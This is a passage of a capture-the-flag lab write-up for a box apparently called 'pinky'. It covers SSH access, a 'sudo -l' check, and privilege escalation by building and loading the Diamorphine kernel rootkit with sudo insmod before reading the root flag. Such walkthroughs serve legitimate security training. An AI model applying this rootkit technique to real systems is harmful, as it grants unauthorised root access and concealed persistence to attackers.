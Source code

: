 ![](https://paper-attachments.dropbox.com/s_7A09BEDD0EDA038254090457BE7CF3F0AA3EBA1021DECE0A8FA63DE4EF27D05D_1553983075757_image.png)


Connect to SSH

    ssh -i pinky pinky@192.168.56.119 -p 5555

*note: IP changed as I restarted the box thinking I had messed up PSMCCLI*


![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553986664477_image.png)


Privilege check with sudo

    sudo -l

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553986774854_image.png)


two binaries look to be able to run as root. Both are kernel modules and and which will require to be re-wrote or we can use a rootkit Diamorphine (github link: https://github.com/m0nad/Diamorphine)


# Path to Root

Premade-Kernal Exploit Diamorphine Install:
This exploit is unique in that it allow for it to be ran via an invisuble module sending a signal 64 to any pid.

Verify the kernal is at least 2.6x/3.x/4.x

    uname -r

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554050118743_image.png)


Downloaded clone of repository && move `diamorphine.c`, `diamorphine.h` and `Makefile` to target and `make`:

    git clone https://github.com/m0nad/Diamorphine.git

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554050222124_image.png)


Execute insmod with sudo:

    sudo /sbin/insmod diamorphine.ko

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554050339259_image.png)


Kill a pid with `-64` invisibility:

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554050369157_image.png)




## Root&Loot
    cat /root/root.txt

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554050448137_image.png)


“Bring me the root!” -exec

